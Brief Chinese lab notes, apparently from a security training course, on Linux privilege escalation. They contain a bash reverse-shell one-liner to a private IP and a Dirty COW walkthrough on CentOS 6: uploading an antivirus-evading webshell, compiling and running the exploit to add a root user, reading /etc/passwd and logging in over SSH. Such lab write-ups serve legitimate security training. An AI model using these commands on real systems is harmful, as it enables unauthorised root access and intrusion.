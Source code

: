 #Linux提权



![image-20210825091349543](Linux提权\image-20210825091349543.png)



反弹shell

bash -i >& /dev/tcp/172.16.12.171/8888  0>&1



#centos6脏牛提权_基础实验

![image-20210825125641690](Linux提权\image-20210825125641690.png)

目标位置上传as免杀马

as链接

![image-20210825125752200](Linux提权\image-20210825125752200.png)

打开终端，ls查看 

执行gcc -pthread dirty.c -o cow -lcrypt 编译命令，生成文件

![image-20210825125917626](Linux提权\image-20210825125917626.png)

接着执行 ./cow 123   ,生成新密码

cat /etc/passwd

已经生成了root权限的用户firefart

![image-20210825132225653](Linux提权\image-20210825132225653.png)

打开终端 远程链接  ssh firefart@172.16.12.2 输入密码

whoami查看  













#靶场：ubuntu14脏牛提权_基础实验